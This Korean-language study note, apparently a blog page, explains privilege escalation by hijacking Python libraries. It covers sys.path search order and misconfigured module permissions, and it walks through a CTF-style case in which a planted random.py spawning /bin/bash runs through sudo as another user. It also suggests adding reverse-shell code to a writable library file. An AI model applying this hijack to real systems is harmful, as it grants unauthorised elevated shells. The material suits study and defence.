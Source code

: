 ```yaml
---
layout: page
title: Hijacking_Python_Library
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/


시스템이 Python 라이브러리에서 권한을 잘못 구성한 시나리오를 접할 수 있습니다. 일반적으로 Python 모듈이 있는 디렉터리에는 상승된 권한 없이는 수정할 수 없도록 권한이 설정되어 있습니다. 이를 통해 사용자가 이 취약점을 만들 수 있는 방법에는 여러 가지가 있습니다.

---

1. 사용자가 자신의 Python 모듈을 만들고 쓰기 액세스를 제한하는 것을 잊어버립니다.
2. 사용자는 Python 라이브러리 디렉토리 내에서 제한을 완화기로 결정합니다.
3. Python 라이브러리의 PATH 변수는 현재 디렉토리를 먼저 확인하도록 구성됩니다.

그럼에도 불구하고 권한을 상승시키려면 상승된 권한으로 Python 스크립트를 실행하는 방법도 필요합니다. 이는 상승된 권한으로 Python 스크립트를 실행하거나 SUID 파일을 통해 다른 취약점을 활용하여 스크립트를 실행하는 cronjob 또는 예약된 작업을 찾는 것을 의미합니다.

![Pasted_image_20250911231826.png](/image/Pasted_image_20250911231826.png)

---

권한을 상승시키는 잠재적인 방법으로 이 방법을 탐색하기로 결정했다면 먼저 Python이 모듈을 가져오기 위해 파일 시스템 내에서 어디를 찾는지 이해해야 합니다. 이를 위해 Python의 "sys" 모듈을 활용할 수 있습니다. 여기에서 자세한 내용을 읽을 수 있습니다.

```bash
python3 -c 'import sys; print(sys.path)'
```

![Pasted_image_20250911232041.png](/image/Pasted_image_20250911232041.png)

#### 작동 원리

Python은 import 문을 통해 모듈을 로드할 때, 모듈을 찾기 위해 다음과 같은 순서로 경로를 검색합니다(일반적으로 sys.path에 정의된 순서):

1. **현재 작업 디렉터리(Working Directory)**: Python 스크립트가 실행되는 디렉터리.
2. **PYTHONPATH**: 환경 변수로 설정된 경로.
3. **표준 라이브러리 경로**: Python 설치 디렉터리의 표준 라이브러리.
4. **site-packages**: pip 등을 통해 설치된 서드파티 라이브러리 경로.

공격자는 이 검색 순서를 악용하여, **Python이 먼저 검색하는 디렉터리(예: 현재 디렉터리)**에 악성 모듈(예: requests.py)을 배치합니다. 이로 인해 Python은 신뢰할 수 있는 실제 라이브러리(예: site-packages에 있는 requests) 대신 악성 모듈을 로드하게 됩니다.

Python은 모듈을 로드할 때 **현재 디렉터리(working directory)** 를 먼저 검색합니다. 이는 sys.path의 첫 번째 항목이 보통 현재 디렉터리('' 또는 .)로 설정되기 때문입니다. 예를 들어, import requests를 호출하면 Python은 먼저 현재 디렉터리에 requests.py 또는 requests 폴더가 있는지 확인한 후, 다른 경로(PYTHONPATH, site-packages 등)를 순차적으로 탐색합니다.


---

#### 공격 시나리오

1. **악성 모듈 배치**:
    
    - 공격자가 피해자의 작업 디렉터리에 악성 evil.py 파일을 배치합니다.
    - 이 파일은 실제 evil 라이브러리처럼 동작하지만, 추가로 악성 코드를 실행(예: 데이터 유출, 백도어 설치 등)합니다.
2. **공격 환경**:
    
    - 신뢰할 수 없는 소스에서 다운로드한 Python 프로젝트 폴더.
    - 공유 파일 시스템(NFS, SMB 등) 또는 클라우드 스토리지.
    - 사용자 입력으로 디렉터리 경로를 지정하는 스크립트.

```python
# 상승된 권한으로 실행되는 python 스크립트
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
    
```

이 경우 import 된 random의 실제 경로는 /usr/lib/python3/~~ 이쯤 어딘가겠지만, walrus_and_the_carpenter.py와 같은 디렉터리 안에 random.py 파일을 생성함.

```python
import os
os.system("/bin/bash")
```

이후 walrus_and_the_carpenter.py가 다시 실행될 때 같은 디렉터리 내의 random.py가 먼저 검색되면서 import 하게 되고 /bin/bash가 실행되게 된다.

이후 sudo -l 의 결과를 참고해 다음과 같이 실행시킨다.

```bash
# -u : 지정된 사용자로 명령어를 실행
sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```


---

import 된 라이브러리의 위치를 확인

```python
import random

# 로드된 모듈(random)의 경로 출력
print(random.__file__)
```

random.py의 위치가 출력되고 random.py의 권한에 쓰기 권한이 있다면 random.py 파일에 리버쉘, bash 쉘을 실행시키는 코드로 수정함.
이후 root 권한으로 실행되는 python 파일을 실행시킬 때 random 라이브러리를 들고 오면서 실행되게 된다.

